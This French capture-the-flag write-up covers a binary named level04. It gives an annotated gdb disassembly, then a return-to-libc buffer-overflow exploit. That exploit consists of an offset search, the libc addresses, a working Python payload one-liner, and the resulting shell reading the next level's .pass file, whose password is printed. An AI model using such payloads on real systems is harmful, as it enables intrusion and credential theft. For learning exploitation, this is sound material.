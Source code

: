 # Analyse

## Binaire

`./level04`
```
Give me some shellcode, k

```
`test`
```

child is exiting...
```
## Gdb

`info function`
```asm
[...]
  0x080486c8  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x080486c8 <+0>:	push   ebp
   0x080486c9 <+1>:	mov    ebp,esp
   0x080486cb <+3>:	push   edi
   0x080486cc <+4>:	push   ebx
   0x080486cd <+5>:	and    esp,0xfffffff0
   0x080486d0 <+8>:	sub    esp,0xb0                             ; 176 octets pour la stack
   0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    DWORD PTR [esp+0xac],eax             ; int pid @ esp+0xac = fork();
   0x080486e2 <+26>:	lea    ebx,[esp+0x20]                       ; input @ esp+0x20
   0x080486e6 <+30>:	mov    eax,0x0
   0x080486eb <+35>:	mov    edx,0x20
   0x080486f0 <+40>:	mov    edi,ebx
   0x080486f2 <+42>:	mov    ecx,edx
   0x080486f4 <+44>:	rep stos DWORD PTR es:[edi],eax             ; memset(buffer, 0, 32);
   0x080486f6 <+46>:	mov    DWORD PTR [esp+0xa8],0x0             ; int ret @ esp+0xa8 = 0
   0x08048701 <+57>:	mov    DWORD PTR [esp+0x1c],0x0             ; int status @ esp+0x1c = 0
   0x08048709 <+65>:	cmp    DWORD PTR [esp+0xac],0x0
   0x08048711 <+73>:	jne    0x8048769 <main+161>                 ; if pid != 0:  jump <+161> 
   0x08048713 <+75>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804871b <+83>:	mov    DWORD PTR [esp],0x1
   0x08048722 <+90>:	call   0x8048540 <prctl@plt>                ; prctl(1, 1);
   0x08048727 <+95>:	mov    DWORD PTR [esp+0xc],0x0
   0x0804872f <+103>:	mov    DWORD PTR [esp+0x8],0x0
   0x08048737 <+111>:	mov    DWORD PTR [esp+0x4],0x0
   0x0804873f <+119>:	mov    DWORD PTR [esp],0x0
   0x08048746 <+126>:	call   0x8048570 <ptrace@plt>               ; ptrace(0, 0, 0, 0);
   0x0804874b <+131>:	mov    DWORD PTR [esp],0x8048903
   0x08048752 <+138>:	call   0x8048500 <puts@plt>                 ; puts("Give me some shellcode, k");
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>                 ; gets(input);
   0x08048763 <+155>:	jmp    0x804881a <main+338>                 ; jump <+338>
   0x08048768 <+160>:	nop
   0x08048769 <+161>:	lea    eax,[esp+0x1c]
   0x0804876d <+165>:	mov    DWORD PTR [esp],eax
   0x08048770 <+168>:	call   0x80484f0 <wait@plt>                 ; wait(&status);
   0x08048775 <+173>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048779 <+177>:	mov    DWORD PTR [esp+0xa0],eax
   0x08048780 <+184>:	mov    eax,DWORD PTR [esp+0xa0]
   0x08048787 <+191>:	and    eax,0x7f
   0x0804878a <+194>:	test   eax,eax
   0x0804878c <+196>:	je     0x80487ac <main+228>                 ; if status & 0x7f == 0: jump <+228>
   0x0804878e <+198>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048792 <+202>:	mov    DWORD PTR [esp+0xa4],eax
   0x08048799 <+209>:	mov    eax,DWORD PTR [esp+0xa4]
   0x080487a0 <+216>:	and    eax,0x7f
   0x080487a3 <+219>:	add    eax,0x1
   0x080487a6 <+222>:	sar    al,1
   0x080487a8 <+224>:	test   al,al
   0x080487aa <+226>:	jle    0x80487ba <main+242>                 ; if (status & 0x7f) >> 1 <= 0: jump <+242>
   0x080487ac <+228>:	mov    DWORD PTR [esp],0x804891d
   0x080487b3 <+235>:	call   0x8048500 <puts@plt>                 ; puts("child is exiting...");
   0x080487b8 <+240>:	jmp    0x804881a <main+338>                 ; return(0);
   0x080487ba <+242>:	mov    DWORD PTR [esp+0xc],0x0
   0x080487c2 <+250>:	mov    DWORD PTR [esp+0x8],0x2c
   0x080487ca <+258>:	mov    eax,DWORD PTR [esp+0xac]
   0x080487d1 <+265>:	mov    DWORD PTR [esp+0x4],eax
   0x080487d5 <+269>:	mov    DWORD PTR [esp],0x3
   0x080487dc <+276>:	call   0x8048570 <ptrace@plt>
   0x080487e1 <+281>:	mov    DWORD PTR [esp+0xa8],eax             ; ret = ptrace(3, pid, 44, 0)
   0x080487e8 <+288>:	cmp    DWORD PTR [esp+0xa8],0xb
   0x080487f0 <+296>:	jne    0x8048768 <main+160>                 ; if ret !== 11: jump <+160> (boucle)
   0x080487f6 <+302>:	mov    DWORD PTR [esp],0x8048931
   0x080487fd <+309>:	call   0x8048500 <puts@plt>                 ; puts("no exec() for you");
   0x08048802 <+314>:	mov    DWORD PTR [esp+0x4],0x9
   0x0804880a <+322>:	mov    eax,DWORD PTR [esp+0xac]
   0x08048811 <+329>:	mov    DWORD PTR [esp],eax
   0x08048814 <+332>:	call   0x8048520 <kill@plt>                 ; kill(pid, 9);
   0x08048819 <+337>:	nop
   0x0804881a <+338>:	mov    eax,0x0                              ; return(0);
   0x0804881f <+343>:	lea    esp,[ebp-0x8]
   0x08048822 <+346>:	pop    ebx
   0x08048823 <+347>:	pop    edi
   0x08048824 <+348>:	pop    ebp
   0x08048825 <+349>:	ret
End of assembler dump.
```

# Exploit

Le programme crée un child process avec un fork() qui exécute un peu plus loin un appel à gets() sur l'input que nous contrôlons (donc vulnérable à un buffer overflow), puis return.

Le parent quant à lui boucle en suivant l'exécution du child, tant qu'il ne lance pas le syscall [11: execve()](https://redirect.cs.umbc.edu/courses/undergraduate/313/spring04/burt_katz/lectures/Lect07/syscall_offline.html):
Attend un changement de statut de l'enfant, s'il a été interrompu ou a quitté (cf. [waitstatus.h](https://github.com/lattera/glibc/blob/master/bits/waitstatus.h)), affiche "child is exiting..." et return(0); 

En sortie de boucle (l'enfant a tenté un execve()), il affiche "no exec() for you", le kill et retun(0);

La stack est exécutable, mais le check sur execve() nous empêche de lancer un shellcode classique donc on va opter pour la même approche que dans le level01: un [retour a la libc](https://beta.hackndo.com/retour-a-la-libc/).

Pour trouver l'offset on va devoir spécifier à gdb de suivre l'exécution du process enfant et se servir comme d'habitude du [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

`gdb level04`
`set follow-fork-mode child`
`r`
```
Starting program: /home/users/level04/level04
[New process 3213]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 3213]
0x41326641 in ?? ()
```
- Le générateur de pattern nous indique un offset de 156 pour la valeur 0x41326641

Notre exploit sera composé comme suit: [ Offset de 80 (NopSled) ] [ Adresse system() ] [ Adresse retour (osef) ] [ Adresse "/bin/sh" ].

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- L'adresse de system() est 0xf7e6aed0 (\xd0\xae\xe6\xf7)

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
- L'adresse de "/bin/sh" est 0xf7f897ec (\xec\x97\xf8\xf7)

`(python -c 'print "\x90" * 156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"'; cat - ) | ./level04`
```
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
